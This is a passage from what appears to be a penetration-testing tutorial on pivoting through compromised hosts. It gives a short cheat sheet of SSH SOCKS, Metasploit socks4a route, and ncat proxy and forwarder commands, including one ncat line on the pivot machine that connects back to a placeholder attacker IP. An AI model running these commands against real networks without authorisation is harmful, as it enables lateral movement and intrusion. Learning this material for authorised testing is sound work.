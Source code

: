If you are willing to install tools on the target machine, you could install various command line tools (or even visual desktop servers like VNC) and use the pivot box as a "new" attacker machine. This is sometimes the way to go if installing tools on such a device is allowable in the rules of engagement.

One additional proxy tool I will mention under this category is [3proxy](https://github.com/z3APA3A/3proxy), a swiss army knife of a proxy with tons of options. Unfortunately, for linux hosts you will need to build a static binary to deploy (or attempt to build on the target), so is a little less simple to get running.

## A Quick Pivot CheatSheet

All of these methods are potentially limited by the permissions on the proxy host - non-root users for instance cannot perform certain types of scans over the proxy.

## SSH pivot

```bash
ssh -D localhost:<local_proxy_port> -f -N <user>@<machine_to_pivot>
```

## Metasploit with Meterpreter

```bash
msf5 >route add <network_to_proxy_in_CIDR_notation> <meterpreter_session_id>
[*] Route added
msf5 > use auxiliary/server/socks4a
msf5 auxiliary(server/socks4a) > set SRVPORT 9050
SRVPORT => 9050
msf5 auxiliary(server/socks4a) > run -j
```

## Ncat HTTP proxy

```bash
$ ncat -vv --listen 3128 --proxy-type http
```

## Ncat Port Forwarder

On attacker machine:

```bash
$ ncat -lv --broker -m2 <port>
```

On pivot machine:

```bash
$ ncat -v <attacker_ip> <attacker_port> -c "ncat -v <host_to_pivot_to> <port_on_final_target"
```

## Netcat Port Forwarder
